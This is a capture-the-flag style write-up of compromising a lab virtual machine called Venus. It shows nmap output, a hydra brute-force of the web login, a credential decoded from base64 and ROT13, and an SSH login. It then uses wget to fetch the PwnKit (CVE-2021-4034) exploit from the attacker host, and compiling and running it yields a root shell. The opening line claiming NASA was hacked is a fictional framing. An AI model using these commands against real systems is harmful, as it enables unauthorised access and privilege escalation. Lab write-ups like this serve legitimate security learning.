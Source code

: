 ```yaml
---
layout: post
title: Venus
date: 27-05-2025
categories: [Medium]
tags: [CVE]
image: "https://images.theconversation.com/files/404401/original/file-20210604-13-128m0ja.jpg"
---
```


>Nasa have been hacked and this was reveled about nasa


## Scanning
```
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 01:30 (0:00:06 remaining)
Nmap scan report for 192.168.56.107
Host is up (0.00022s latency).
Not shown: 987 filtered tcp ports (no-response), 11 filtered tcp ports (admin-prohibited)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.5 (protocol 2.0)
| ssh-hostkey: 
|   256 b0:3e:1c:68:4a:31:32:77:53:e3:10:89:d6:29:78:50 (ECDSA)
|_  256 fd:b4:20:d0:d8:da:02:67:a4:a5:48:f3:46:e2:b9:0f (ED25519)
8080/tcp open  http    WSGIServer 0.2 (Python 3.9.5)
|_http-title: Venus Monitoring Login
MAC Address: 08:00:27:18:54:5E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.02 seconds

```
![image](https://github.com/user-attachments/assets/c2107323-86e9-4416-a312-14c25cb2180d)


## Enumartion 

By using the port 8080 running the http-proxy server, finsing the posible users in the system
Using the user guest:guest we can see in the reques there is the vlidation auth exncripted with base64, so lets try to fins the other users in the sys.
>This it need more partient.

```
-----------------------------------------------------------------------------------------------------------------------
~/Desktop/redteam/hack/vernus » hydra -L /usr/share/wordlists/rockyou.txt -p guest -s 8080 192.168.56.107 http-post-form "/:username=^USER^&password=^PASS^:Invalid username." 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-26 22:37:05
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:14344399/p:1), ~896525 tries per task
[DATA] attacking http-post-form://192.168.56.107:8080/:username=^USER^&password=^PASS^:Invalid username.
[STATUS] 4328.00 tries/min, 4328 tries in 00:01h, 14340071 to do in 55:14h, 16 active
[8080][http-post-form] host: 192.168.56.107   login: venus   password: guest
[STATUS] 4356.33 tries/min, 13069 tries in 00:03h, 14331330 to do in 54:50h, 16 active
[STATUS] 4360.86 tries/min, 30526 tries in 00:07h, 14313873 to do in 54:43h, 16 active
[STATUS] 4380.27 tries/min, 65704 tries in 00:15h, 14278695 to do in 54:20h, 16 active
[8080][http-post-form] host: 192.168.56.107   login: magellan   password: guest
[8080][http-post-form] host: 192.168.56.107   login: guest   password: guest
[STATUS] 4370.16 tries/min, 135475 tries in 00:31h, 14208924 to do in 54:12h, 16 active





```
## Initial access
i found the vulneurability is in the page '/' that refrect the authentic cypher on the client side req
so i have to use the credentials of the uses i have get and see if i can manage to get the access to the target, so i have to convert the user and the same pass into base64 and find the loocation were there is the out put break in the system.
finslly i get this and it was encoded of user magellan
bWFnZWxsYW46aXJhaGZ2bmF0cmJ5YnRsMTk4OQ==

decrep using base64 and try to identfy the ype of cypher in the user name it was ROT13 then i used the credentials see the picture bellow

![Screenshot From 2025-05-26 23-10-50](https://github.com/user-attachments/assets/e4772143-8a60-4611-9c26-7d67b15249a7)


![Screenshot From 2025-05-26 23-08-55](https://github.com/user-attachments/assets/8aa2a572-3d56-456a-8d3b-1d60eedbfb92)


```
~/Desktop/redteam/hack/vernus » ssh magellan@192.168.56.107                                 255 ↵ cyberkid@cyberkiddle
magellan@192.168.56.107's password: 
Last failed login: Mon May 26 21:05:09 BST 2025 from 192.168.56.1 on ssh:notty
There was 1 failed login attempt since the last successful login.
[magellan@venus ~]$ 




```
Weldone if you have reached in this stage your very awesome lets get the root account.

## Privilage esc
This exploit it need very well understanding in payloads and mashine learning but cool just simple to get ride of
https://codeload.github.com/berdav/CVE-2021-4034/zip/main
This is the link to the exploit have nice time exploire how to use th exploit.

>Finding more strength to the user.

```

[magellan@venus tmp]$ mkdir lilly
[magellan@venus tmp]$ cd lilly/
[magellan@venus lilly]$ wget http://192.168.56.1:8000/CVE-2021-4034-main.zip
--2025-05-26 23:25:44--  http://192.168.56.1:8000/CVE-2021-4034-main.zip
Connecting to 192.168.56.1:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6457 (6.3K) [application/zip]
Saving to: ‘CVE-2021-4034-main.zip’

CVE-2021-4034-main.zip        100%[================================================>]   6.31K  --.-KB/s    in 0s      

2025-05-26 23:25:44 (78.3 MB/s) - ‘CVE-2021-4034-main.zip’ saved [6457/6457]

[magellan@venus lilly]$ ls
CVE-2021-4034-main.zip
[magellan@venus lilly]$ unzip CVE-2021-4034-main.zip 
Archive:  CVE-2021-4034-main.zip
55d60e381ef90463ed35f47af44bf7e2fbc150d4
   creating: CVE-2021-4034-main/
  inflating: CVE-2021-4034-main/.gitignore  
  inflating: CVE-2021-4034-main/LICENSE  
  inflating: CVE-2021-4034-main/Makefile  
  inflating: CVE-2021-4034-main/README.md  
  inflating: CVE-2021-4034-main/cve-2021-4034.c  
  inflating: CVE-2021-4034-main/cve-2021-4034.sh  
   creating: CVE-2021-4034-main/dry-run/
  inflating: CVE-2021-4034-main/dry-run/Makefile  
  inflating: CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c  
  inflating: CVE-2021-4034-main/dry-run/pwnkit-dry-run.c  
  inflating: CVE-2021-4034-main/pwnkit.c  
[magellan@venus lilly]$ cd CVE-2021-4034-main/
[magellan@venus CVE-2021-4034-main]$ ls
LICENSE  Makefile  README.md  cve-2021-4034.c  cve-2021-4034.sh  dry-run  pwnkit.c
[magellan@venus CVE-2021-4034-main]$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
[magellan@venus CVE-2021-4034-main]$ ls
'GCONV_PATH=.'   Makefile    cve-2021-4034     cve-2021-4034.sh   gconv-modules   pwnkit.so
 LICENSE         README.md   cve-2021-4034.c   dry-run            pwnkit.c
[magellan@venus CVE-2021-4034-main]$ ./cve-2021-4034
sh-5.1# whoami
root
sh-5.1# 



```
![image](https://github.com/user-attachments/assets/a3d4c4cc-0655-4d1f-bcba-8b41b6a6d7db)

>Hi I thing it was so tough.
